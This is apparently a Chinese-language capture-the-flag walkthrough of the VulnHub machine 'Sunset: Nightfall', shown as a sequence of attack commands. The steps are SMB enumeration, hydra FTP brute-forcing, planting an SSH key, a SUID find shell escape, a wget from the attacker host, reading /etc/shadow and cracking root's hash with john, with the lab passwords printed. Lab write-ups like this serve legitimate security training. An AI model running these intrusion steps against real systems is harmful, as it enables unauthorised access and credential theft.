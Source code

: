 # Sunset: Nightfall

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Nightfall（IP：192.168.56.104）

下载：https://www.vulnhub.com/entry/sunset-nightfall,355/

## Let's go

```
nmap -A 192.168.56.104
```

![](./img/Sunset：Nightfall-01.png)![](./img/Sunset：Nightfall-02.png)

```
dirb http://192.168.56.104/
```

![](./img/Sunset：Nightfall-03.png)

> **并没有发现什么，我们对SMB进行枚举**

```
enum4linux -a 192.168.56.104
```

![](./img/Sunset：Nightfall-04.png)

> **得到两个用户 ‘nightfall’ 和 ‘matt’ ，接下来我们进行暴力破解**

```
#SSH破解很长时间无效果，FTP破解很快就出来了
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr 192.168.56.104 ftp -f
```

![](./img/Sunset：Nightfall-05.png)

```
ftp 192.168.56.104
username:matt
password:cheese
```

![](./img/Sunset：Nightfall-06.png)

```
#我们通过FTP将SSH密钥上传
ssh-keygen
cp .ssh/id_rsa.pub authorized_keys
chmod 777 authorized_keys
```

![](./img/Sunset：Nightfall-07.png)

```
mkdir .ssh
cd .ssh
put authorized_keys
```

![](./img/Sunset：Nightfall-08.png)

```
ssh matt@192.168.56.104
```

![](./img/Sunset：Nightfall-09.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/Sunset：Nightfall-10.png)

```
cd /scripts
./find . -exec /bin/sh -p \;
```

![](./img/Sunset：Nightfall-11.png)

> **这是一个受限的shell，因此我们要想办法**

```
cd /home/nightfall
mkdir .ssh
cd .ssh
wget http://192.168.56.102/authorized_keys
```

![](./img/Sunset：Nightfall-12.png)

```
ssh nightfall@192.168.56.104
```

![](./img/Sunset：Nightfall-13.png)

```
sudo -l
```

![](./img/Sunset：Nightfall-14.png)

```
sudo cat /etc/shadow
```

![](./img/Sunset：Nightfall-15.png)

```
vim root		#将哈希写入root
john root
```

![](./img/Sunset：Nightfall-16.png)

```
su root
password:miguel2
cd
cat root_super_secret_flag.txt
```

![](./img/Sunset：Nightfall-17.png)